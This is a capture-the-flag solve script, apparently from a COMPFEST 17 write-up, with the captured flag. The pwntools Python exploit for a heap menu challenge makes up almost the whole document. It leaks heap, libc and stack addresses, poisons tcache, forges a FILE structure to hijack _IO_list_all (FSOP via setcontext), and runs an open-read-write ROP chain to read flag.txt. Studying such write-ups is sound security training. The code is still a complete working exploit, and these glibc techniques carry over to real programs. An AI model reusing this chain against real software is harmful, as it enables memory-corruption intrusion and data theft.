

### Solve Script

```python

#!/usr/bin/env python3
from ctypes import CDLL
import time
from subprocess import Popen
from pwncli import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chall_patched'
elf = context.binary = ELF(exe, checksec=True)
libc = elf.libc
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = "ctf.compfest.id", 7002


gdbscript = '''
init-pwndbg
# set architecture aarch64
# target remote :5000
b *_IO_flush_all_lockp
b *_IO_wfile_seekoff
c
'''.format(**locals())

def initialize(argv=[]):
    global pid
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 1337)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "/app/run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, aslr=False)
    else:
        return process([exe] + argv, aslr=True)

def debug():
    global gdbscript, pid
    if not args.REMOTE and not args.GDB:
        if args.QEMU:
            gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
            for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
                gdb_args.extend(["-ex", cmd])
            Popen(gdb_args)
        elif args.DOCKER:
            gdbscript = f'''
            init-pwndbg
            set sysroot /proc/{pid}/root
            c
            '''.format(**locals())        
            attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe='chall')
        else:
            attach(io, gdbscript=gdbscript)

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))


# =========================================================
#                         EXPLOITS
# =========================================================
# Heap Protection
def mangle(heap_addr, val):
    return (heap_addr >> 12) ^ val

def demangle(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val

def orw(addr, path=None):
    rop = ROP(libc)
    syscall = rop.find_gadget(['syscall', 'ret'])[0]
    mov_rdi_rax = next(libc.search(asm("mov rdi, rax ; cmp rdx, rcx")))

    # Open
    rop.rax = constants.SYS_open
    rop.call(syscall, [addr, 0])
    rop.raw(mov_rdi_rax)

    #Read
    rop.rax = constants.SYS_read
    rop(rsi=addr, rdx=0x60)
    rop.raw(syscall)
    #Write
    rop.rax = constants.SYS_write
    rop.call(syscall, [1])
    return rop.chain()

# FSOP
def fsrop_context(fp=None, offset=0x48, rip=None, rsp=None, rbp=0x2, rdi=0, rsi=None, rdx=0x200, rbx=0x2, r8=0x2, r9=0x2, r12=0x2, r13=0x2, r14=0x2, r15=0x2):
    fp = fp if fp is not None else libc.sym["_IO_2_1_stdout_"]
    fs = IO_FILE_plus_struct()
    fs.flags = b"/bin/sh\0"
    fs._IO_read_ptr = 0x8

    fs._IO_read_end = fp - 0x10 #RDX
    fs._IO_read_base = r8 #R8
    fs._IO_write_base = r9 #R9
    fs._IO_buf_base = r12 #R12
    fs._IO_buf_end = r13 #R13
    fs._IO_save_base = r14 #R14
    fs._IO_backup_base = r15 #R15
    fs._IO_save_end = rdi #RDI
    fs.markers = rsi if rsi is not None else libc.bss() #RSI
    fs.chain = rbp #RBP
    fs.fileno = rbx & 0xffffffff #RBX
    fs._flags2 = rbx >> 32
    fs._old_offset = rdx #RDX
    fs._lock = fp + 0x10  #RCX
    fs._offset = rsp if rsp is not None else libc.bss() #RSP
    fs._codecvt = rip if rip is not None else nsa(libc, "syscall ; ret") #RIP
    fs._wide_data = fp - 0x10
    fs.unknown2 = p64(0)*3 + p64(1) + p64(libc.sym["setcontext"] + 61) + p64(fp + 0xb0)
    fs.vtable = libc.sym._IO_wfile_jumps + offset - 0x18 # _IO_wfile_seekoff -> _IO_switch_to_wget_mode+37
    return bytes(fs)

def stdout_leak(target=None, size=0x8):
    return p64(0xfbad1800) + p64(0)*3 + (p64(target) + p64(target + size) if target is not None else b'\x00')

def menu(choice):
    sla(b"> ", str(choice).encode())

def alloc(idx, size, data):
    menu(1)
    menu(idx)
    menu(size)
    sa(b"> ", data)

def view(idx):
    menu(2)
    menu(idx)

def free(idx):
    menu(3)
    menu(idx)

def exploit():
    global io
    io = initialize()
    with log.progress("Leak heap & libc address"), context.silent:
        alloc(0, 0x18, b"A")
        free(0)
        view(0)
        heap_leak = demangle(u64(rl().strip().ljust(8, b"\x00")))
        heap = heap_leak & ~0xfff
    leak("Heap leak", hex(heap_leak))
    leak("Heap base address", hex(heap))
    with log.progress("Clean unsorted bins & smallbins"), context.silent:
        for i in range(27):
            alloc(0, 0x28, b"A")

    with log.progress("Libc leak"), context.silent:
        alloc(0, 0x28, b"A")
        alloc(1, 0x28, p64(0x21)*2)
        for i in range(5):
            alloc(2, 0x28, p64(0x21)*2)
        free(0)
        alloc(0, 0x28, b"A"*0x28 + b"\xf1")
        free(1)
        view(1)

        libc_leak = u64(rl().strip().ljust(8, b"\x00"))
        libc.address = libc_leak - (libc.sym["main_arena"] + 96)
    leak("Libc leak", hex(libc_leak))
    leak("Libc base address", hex(libc.address))
    with log.progress("Clean unsorted bins"), context.silent:
        for i in range(5):
            alloc(2, 0x28, p64(0x21)*2)
    with log.progress("Leak stack"), context.silent:
        alloc(0, 0x28, p64(0x21)*3 + b"\x31")
        alloc(1, 0x28, p64(0x21)*3 + b"\x31")
        free(0)
        alloc(0, 0x28, b"A"*0x28 + b"\x41")
        alloc(0, 0x28, p64(0x21)*3 + b"\x31")

        alloc(0, 0x28, p64(0x21)*3 + b"\x31")
        alloc(2, 0x28, p64(0x21)*3 + b"\x31")
        free(0)
        alloc(0, 0x28, b"A"*0x28 + b"\x41")
        alloc(0, 0x28, p64(0x21)*3 + b"\x31")

        free(1)
        free(2)
        free(1)
        for i in range(7):
            alloc(0, 0x38, b"A")
        alloc(0, 0x38, p64(mangle(heap, libc.sym["_IO_2_1_stdout_"])))
        alloc(0, 0x38, b"A")
        alloc(0, 0x38, b"B")
        alloc(0, 0x38, stdout_leak(libc.sym["environ"]))
        stack = u64(r(8))
    leak("Stack leak", hex(stack))
    with log.progress("Overwrite _IO_list_all"), context.silent:
        alloc(0, 0x28, p64(0x31)*3 + b"\x31")
        alloc(1, 0x28, p64(0x31)*3 + b"\x31")
        free(0)
        alloc(0, 0x28, b"A"*0x28 + b"\x21")
        alloc(0, 0x28, p64(0x31)*3 + b"\x31")

        alloc(0, 0x28, p64(0x21)*3 + b"\x21")
        alloc(2, 0x28, p64(0x21)*3 + b"\x21")
        free(0)
        alloc(0, 0x28, p64(0x21)*5 + b"\x21")
        alloc(0, 0x28, p64(0x21)*3 + b"\x21")
        free(1)
        free(2)
        free(1)
        for i in range(7):
            alloc(0, 0x18, b"A")
        alloc(0, 0x18, p64(mangle(heap, libc.sym["_IO_list_all"])))
        alloc(0, 0x18, b"A")
        alloc(0, 0x18, b"B")
        fp = heap + 0x6a0
        payload = fsrop_context(fp)
        alloc(0, 0x38, payload[:0x38] + b"\xff")
        alloc(0, 0x38, payload[0x40:0x40+0x38] + b"\xff")
        alloc(0, 0x38, payload[0x80:0x80+0x38] + b"\x00")
        alloc(0, 0x38, payload[0xc0:])
        alloc(0, 0x18, p64(fp))

    with log.progress("Doing ORW"), context.silent:
        menu(4)
        rop = ROP(libc)
        rop.rax = 0
        rop.rdx = 0x200
        rop.raw(nsa(libc, "syscall ; ret"))
        sla("detective!", rop.chain())
        offset = 0x30
        payload = flat({offset: [orw(libc.bss() + 0xd8) + b"flag.txt\0"]})
        sl(payload)
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`COMPFEST17{3X1T_ORw_cha1n}`